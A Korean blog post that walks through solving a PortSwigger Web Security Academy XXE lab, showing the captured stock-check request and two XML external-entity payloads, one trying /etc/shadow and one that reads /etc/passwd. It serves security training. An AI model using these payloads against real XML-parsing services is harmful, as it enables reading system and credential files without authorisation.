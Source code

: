 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting XXE using external entities to retrieve files"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 문제명: Exploiting XXE using external entities to retrieve files
- XXE (XML external entity) 공격에 대한 실습 문제이다. 
- XXE의 기본적인 패턴 중 하나의 시스템 파일 읽기를 실습할 수 있다. 
- 주소: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
- 난이도: APPRENTICE (쉬움)
- XXE에 대한 기본적인 내용은 [여기](https://portswigger.net/web-security/xxe){:target="_blank"} 에서 확인가능하다. 


# 문제분석
- Check stock 기능은 XML 입력을 파싱한 결과를 (에러를 포함해서) 돌려준다고 한다. 
- XML external entiry 를 삽입해서 /etc/passwd 파일의 내용을 읽으면 성공이다.   

```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.
```

# 풀이 
## 취약점이 있는 곳 찾기
상품 상세 페이지에서 `Check stock` 버튼이 있는 것을 찾았다. 

![Check stock기능](/images/burp-academy-xxe-1-1.png)

버튼을 클릭하면 다음 요청이 전송된다. 

```http
POST /product/stock HTTP/1.1
Host: 0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Cookie: session=1uOtwtnBX2Udo4b3VfYEXUpYiZuR7xja
Content-Length: 107
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7onnection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

HTTP 응답은 다음과 같다. 

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 2

94
```

POST 요청의 XML 바디 부분에 XXE 공격 페이로드를 넣으면 될 것 같다. 

## 1차 시도 
[XXE 페이로드](https://github.com/payloadbox/xxe-injection-payload-list){:target="_blank"}
를 참고해서 
`<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>` 를 추가해서 보내봤다. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY foo SYSTEM "file:///etc/shadow"> ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

200 응답이 되돌아왔다. 뭔가 잘못된 것 같다. 

## 2차 시도 
아, 페이로드에 `&foo;` 로 출력해주는 부분이 없었다. 다음 페이로드로 시도해보자 /etc/passwd의 내용을 확인할 수 있었다. 

```xml
<!DOCTYPE test [<!ENTITY foo SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&foo;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Burp Suite Repeater로 확인한 모습 
![Check stock기능](/images/burp-academy-xxe-1-3.png)

성공! 
![Check stock기능](/images/burp-academy-xxe-1-2.png)